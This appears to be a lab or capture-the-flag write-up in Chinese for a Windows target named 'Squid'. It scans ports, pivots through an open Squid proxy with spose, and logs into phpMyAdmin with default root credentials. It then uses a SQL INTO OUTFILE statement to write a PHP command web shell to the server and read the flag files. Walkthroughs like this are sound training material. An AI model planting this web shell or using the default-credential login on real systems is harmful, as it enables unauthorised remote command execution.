





# Squid

### Nmap Scaning 

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.115.189 -p-

[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 15:18 CST
Nmap scan report for 192.168.115.189
Host is up (0.074s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-06T07:22:18
|_  start_date: N/A
|_clock-skew: 1m12s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   74.56 ms 192.168.45.1
2   74.48 ms 192.168.45.254
3   74.93 ms 192.168.251.1
4   75.11 ms 192.168.115.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.22 seconds
```

特別的就是 port 3128 [Squid](https://www.squid-cache.org/) 服務了，上網查是一種 proxy 服務。 連上去只有錯誤畫面但是找到版號 4.14，但是透過 Searchsploit 沒看到什麼符合的 exploit。



使用 Spose 掛上 Squid proxy 再掃描一次

```
┌──(kali㉿kali)-[~/Desktop/tmp_pen200/spose]
└─$ python spose.py --proxy http://192.168.115.189:3128 --target 192.

168.115.189            
Scanning default common ports
Using proxy address http://192.168.115.189:3128
192.168.115.189:3306 seems OPEN
192.168.115.189:8080 seems OPEN
```

確定有 port 之後，接上 proxy 重新連結。成功連上port 8080，是 Wampserver 的預設頁面


### Login phpmyadmin using default credential

用 root/(empty) 登入資料庫（http://target_ip/phpmyadmin），再用以下 SQL 指令將 command shell 寫入至網站中
```
select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/shell.php' 
```

在連線至 http://target_ip/shell.php?cmd=whoami 確認 command 上傳成功



### Use the command to find the `local.txt` and `proof.txt`

接著透過搜尋指令尋找 C 槽底下所有的記事本，找出儲存 flag 的 `local.txt` 和 `proof.txt`



分別在：
- `C:\local.txt`
- `C:\Users\Administrator\Desktop\proof.txt`

再透過 type 指令將它印出，成功取得兩個 flag


